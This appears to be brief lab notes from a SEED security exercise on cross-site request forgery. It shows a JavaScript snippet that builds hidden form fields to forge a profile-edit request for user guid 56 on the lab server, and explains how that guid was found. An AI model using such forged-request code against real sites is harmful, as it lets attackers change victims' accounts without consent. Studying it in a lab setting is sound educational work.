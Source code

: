 # CSRF : cross site request forge

##

```javascript
field += "<input type='hidden' name='name' value='Alice'>";
field += "<input type='hidden' name='briefdescription' value='description is new'>";
field += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
field += "<input type='hidden' name='guid' value='56'>";

p.action = "http://www.seed-server.com/action/profil.edit";
```

`guid=56` intercepted when friend request send or inspection of HTML Page